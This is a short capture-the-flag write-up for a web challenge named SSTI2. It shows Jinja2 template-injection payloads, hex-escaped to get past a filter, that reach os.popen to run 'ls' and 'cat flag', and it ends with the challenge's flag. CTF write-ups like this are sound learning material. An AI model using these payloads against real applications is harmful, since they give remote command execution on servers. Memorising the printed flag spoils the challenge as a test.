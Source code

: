 # challenge WEB 6: SSTI2
![image](https://github.com/user-attachments/assets/87a4f29b-041e-451c-abd9-57b7b0c72a84)

This is also an SSTI vulnerability like the previous SSTI post we did, but getting past the filter is much more difficult.

I also tried many ways to determine what template engine it is but it filtered all my payload, I am very helpless, I also tried many ways to determine what template engine it was but it filtered all my payloads, I was helpless. After a while I searched Google and tried to bypass it in a paragraph (https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
![image](https://github.com/user-attachments/assets/337b771f-dcc4-4b39-83cf-3ccc19db7b3d)

and i successfully: 
![image](https://github.com/user-attachments/assets/a6cf66ac-304a-4257-af4b-e578362f90c7)

next we use ls and cat flag we will have flag:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
![image](https://github.com/user-attachments/assets/892be265-0b4d-4304-83a7-7eab0562e855)


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
![image](https://github.com/user-attachments/assets/78bcbe6a-fc93-4d6d-8296-b4c117cf23f6)

Probem Solved: picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}
